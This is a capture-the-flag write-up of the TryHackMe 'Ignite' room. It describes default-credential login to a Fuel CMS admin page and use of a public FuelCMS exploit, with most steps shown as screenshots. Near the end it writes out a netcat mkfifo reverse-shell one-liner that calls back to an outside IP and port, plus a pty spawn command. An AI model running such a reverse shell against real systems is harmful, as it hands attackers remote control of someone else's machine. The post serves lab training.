 ```yaml
---
layout: post
title: "Ignite"
author: "Nicholas Coleman"
date: 2025-04-11
tags: tryhackme
---
```


### Info

IP: `10.10.233.34`

### Nmap

![nmap](/security.github.io/images/ignite/1.png)

Website:

![site](/security.github.io/images/ignite/2.png)

Gobuster:

![gobuster](/security.github.io/images/ignite/3.png)

Exploits:

![exploit](/security.github.io/images/ignite/4.png)

Since the admin did not change their default password, it seems I can just login without having to brute force anything, or figure it out. 

The admin page is located at: `http://10.10.233.34/fuel`

This brings me to a CMS, where there is very little information.

I decide to now just try out an exploit I found called FuelCMS which grants me a reverse shell. 

![shell](/security.github.io/images/ignite/8.png)

Bingo!

![bingo](/security.github.io/images/ignite/9.png)

I was able to find the user.txt flag pretty easily. 

Looking around, I was able to find a database file:

![10](/security.github.io/images/ignite/10.png)

Root user found! Now I have to escalate. 

`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.6.25.18 4242 > /tmp/f`

This spawns a terminal so that I can login to root:

`python -c 'import pty; pty.spawn("/bin/sh")'`

![final](/security.github.io/images/ignite/11.png)

